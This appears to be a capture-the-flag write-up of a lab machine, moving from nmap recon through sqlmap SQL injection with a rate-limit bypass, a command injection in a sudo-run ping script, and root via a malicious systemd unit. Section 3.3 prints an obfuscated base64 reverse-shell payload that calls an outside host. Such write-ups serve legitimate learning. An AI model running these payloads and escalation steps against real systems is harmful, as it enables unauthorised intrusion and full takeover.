## 1. Reconnaissance

### 1.1 Nmap

An Nmap scan was run against the target to identify open services and exposed ports.



### 1.2 Web Service Enumeration

The primary web service on port 80 presented a standard hotel-booking style site.


A secondary web service was also identified running on a high port.



---

## 2. Initial Foothold — SQL Injection

### 2.1 Identifying the Injection Point

The application's `room.php` page took a `cod` parameter, which appeared to be a candidate for SQL injection.



Manually testing the `cod` parameter triggered a temporary IP ban. The same `room.php` endpoint was also reachable on the secondary high port identified in section 1.2.

### 2.2 Automating Exploitation with sqlmap

To work around the rate-limiting behavior, `sqlmap` was run against the `cod` parameter with the `PHPSESSID` cookie randomized on each request. This confirmed the injection and dumped the full contents of the `hotel.room` table.

### 2.3 Escaping to a Shell

Using sqlmap's `--os-shell` flag, the injection was leveraged to obtain a full OS shell on the target.



This was upgraded to a proper interactive shell.



---

## 3. Privilege Escalation to pepper

### 3.1 Reviewing sudo Rights

Checking available privileges with `sudo -l` revealed that the current user could run a specific script as the user **pepper**:

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py
```



### 3.2 Breaking Out via Command Injection

The script exposed functionality resembling a `ping` utility.



Command substitution using `$()` was found to be evaluated by the underlying shell before the `ping` command itself executed, allowing arbitrary command injection — for example, `ping 8.8.8.8 $(touch test)`.



This was confirmed to work against the target.



### 3.3 Obtaining a Shell as pepper

A base64-encoded reverse shell payload was written to a file on the target via the same injection technique:

```bash
echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIyMC85MDAxIDA+JjE=' | base64 -d | bash
```

The `ping` injection point in `simpler.py` was then used to execute this payload, running as **pepper**.



A listener caught the resulting connection, providing a shell as **pepper**.



---

## 4. Privilege Escalation to root

### 4.1 Exploiting systemctl via SUID-Capable Context

Further review confirmed that **pepper** had the ability to interact with `systemctl` with the SUID bit enabled. 



A malicious systemd service unit was crafted:

```ini
[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target
```

The unit was linked and enabled to trigger execution:

```bash
systemctl link /home/pepper/bad.service
systemctl enable --now /home/pepper/bad.service
```

### 4.2 Root

With the SUID bit set on `/bin/bash`, running `/bin/bash -p` provided a root shell.



---

## 5. Summary

| Stage | Technique |
|---|---|
| Recon | Nmap identified a standard web service and a secondary web service on a high port |
| Initial Access | SQL injection in the `cod` parameter (via sqlmap, with randomized `PHPSESSID` to dodge rate-limit bans) → `--os-shell` → interactive shell |
| Privilege Escalation (pepper) | A sudo rule allowed running `simpler.py` as `pepper`; command injection (`$()` substitution) in its `ping` field gave a reverse shell as `pepper` |
| Privilege Escalation (root) | Abuse of `systemctl`/a malicious systemd service as `pepper` to set the SUID bit on `/bin/bash` → root |

### Key Takeaways
- Aggressive rate-limiting/banning on injection attempts can be bypassed simply by randomizing session identifiers between requests, so it is not a substitute for proper input validation.
- Scripts invoked through `sudo` that wrap shell utilities (e.g., `ping`) are a frequent source of command injection when user input is concatenated into a shell command rather than passed as a discrete argument.
- Allowing a low-privileged user control over `systemctl`/systemd units is equivalent to granting root, since unit files can execute arbitrary commands as root on activation.
